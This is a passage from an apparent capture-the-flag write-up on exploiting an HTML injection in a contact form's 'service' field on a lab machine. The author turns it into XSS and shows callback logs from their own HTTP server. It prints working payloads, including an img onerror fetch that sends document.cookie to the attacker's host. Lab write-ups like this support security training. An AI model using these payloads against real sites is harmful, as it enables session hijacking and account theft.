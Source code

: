 ```

<img src="http://10.10.14.6/email" />

```

I’ll make sure each field calls to a different URL so I know where the injection happens (or if in both), and URL-encode:

![image-20240712225540562](/img/image-20240712225540562.png)

After a few seconds, I’ll see a contact on my Python HTTP server:

```
10.10.11.12 - - [12/Jul/2024 22:55:28] code 404, message File not found
10.10.11.12 - - [12/Jul/2024 22:55:28] "GET /service HTTP/1.1" 404 -

```

It worked in the `service` field.

#### XSS POC

I’ll try upgrading this to an XSS by adding an `onerror` script:

```

<img src="http://10.10.14.6/service" onerror=fetch("http://10.10.14.6/xss") />

```

In Repeater:

![image-20240712225914109](/img/image-20240712225914109.png)

This time there are two connections:

```
10.10.11.12 - - [12/Jul/2024 22:59:28] code 404, message File not found
10.10.11.12 - - [12/Jul/2024 22:59:28] "GET /service HTTP/1.1" 404 -
10.10.11.12 - - [12/Jul/2024 22:59:28] code 404, message File not found
10.10.11.12 - - [12/Jul/2024 22:59:28] "GET /xss HTTP/1.1" 404 -

```

#### Cookie Theft

The quickest win would be if the cookie set on login isn’t set to `HttpOnly` and I can steal it. I’ll try a quick payload to check:

```

<img src="http://10.10.14.6/service" onerror=fetch("http://10.10.14.6/?c="+document.cookie) />

```

I’ll send that in Repeater:

![image-20240712230109432](/img/image-20240712230109432.png)
